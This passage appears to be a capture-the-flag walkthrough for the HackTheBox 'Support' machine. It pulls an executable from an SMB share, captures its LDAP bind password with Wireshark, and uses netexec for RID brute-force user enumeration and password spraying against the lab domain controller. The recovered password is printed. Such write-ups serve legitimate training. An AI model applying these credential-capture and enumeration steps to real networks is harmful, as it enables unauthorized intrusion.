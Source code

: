 Using the `get` flag I download the archive to my local machine 
```
<...SNIP...>
smb: \> get UserInfo.exe.zip
getting file \UserInfo.exe.zip of size 277499 as UserInfo.exe.zip (76.7 KiloBytes/sec) (average 76.7 KiloBytes/sec)
smb: \> 
```
Extracting the archive I find a executable inside.Looking at it I find that its a `DOTNet` binary
```
unzip UserInfo.exe.zip
<...SNIP...>
ls -la
total 944
drwxrwxr-x 2 kali kali   4096 Aug  4 06:17 .
drwxrwxr-x 3 kali kali   4096 Aug  4 06:16 ..
<....SNIP....>
-rwxrwxrwx 1 kali kali  12288 May 27  2022 UserInfo.exe
<...SNIP....>

file UserInfo.exe                                                                                                                                  
UserInfo.exe: PE32 executable for MS Windows 6.00 (console), Intel i386 Mono/.Net assembly, 3 sections
```
Using `wine` I execute the binary and after following the guide I notice its trying so connect to `ldap`
```bash
wine UserInfo.exe                    

Usage: UserInfo.exe [options] [commands]

Options:
  -v|--verbose        Verbose output

Commands:
  find                Find a user
  user                Get information about a user

wine UserInfo.exe -v find        
[-] At least one of -first or -last is required.

wine UserInfo.exe -v find -first null
[*] LDAP query to use: (givenName=null)
[-] Exception: No Such Object
```
### Credential Discovery
#### Auth As ldap

So I start `wireshark` to look at the traffic and I execute the binary once more
```
wireshark
```
![wire](wireshark1.png)
Looking we see that its trying to authenticate with `ldap` with simple authentication and I find credentials for the user ldap
![wireshark](wireshark2.png)
Using `netexec` we dump a list of usernames in the domain and also try password spray which failed
```
nxc smb 10.10.11.174 -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'  --rid-brute
SMB         10.10.11.174    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False) 
```